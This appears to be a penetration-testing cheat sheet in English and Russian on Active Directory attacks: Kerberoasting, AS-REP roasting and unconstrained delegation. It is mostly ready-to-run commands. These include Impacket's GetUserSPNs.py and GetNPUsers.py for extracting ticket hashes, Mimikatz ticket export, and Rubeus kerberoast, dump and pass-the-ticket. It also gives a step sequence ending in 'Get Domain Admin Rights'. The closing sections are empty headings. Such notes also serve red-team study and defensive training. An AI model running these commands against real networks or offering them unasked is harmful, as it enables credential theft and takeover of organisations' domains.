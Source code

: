 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T DomainName -Q \*/\*  
    - загружаем билеты в память для дальнейних действий.  
    - Add-Type -AssemblyName System.IdentityModel  
    - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
    - Проверяем, что билет загружен в память: klist  
    - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
        - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
    - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting (Impacket, Rubeus):  

**Description**: AS-REP Roasting is a technique that enables adversaries to steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.  

**Get users NTLMv2 hash with Impacket**: GetNPUsers.py -userfile [file] -outputfile [output filename] -dc-ip [DC IP] domain/  

**Get users NTLMv2 hash with Rubeus**: Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt  

**Aditional information**:  
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast  

## Unconstrained Delegation (Covenant, Rubeus, PowerView):  

**Description**: когда компьютер доверен для делегирования, это означает, что любые службы, работающие в локальной системе, могут запрашивать службы с других серверов от имени пользователя.  

1) Import powerview;  
2) get-netcomputer -unconstrained -properties dnshostname  
   - ms-rprn.exe \\DC \\Workstation  
   - rubeus.exe dump /service:krbtgt //looking for DC ticket;  
3) Copy DC Base64 encoded krbtgt;  
   - Make fake token (Covenant): maketoken administrator <username> <junk password>  
   - rubeus.exe ptt /ticket:<Base64 encoded ticket>  
4) Get Domain Admin Rights.  
    
**Aditional information**: https://blog.netwrix.com/2021/11/30/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/  


## Constrained Delegation:  


## Alternate Service Name:  


## 
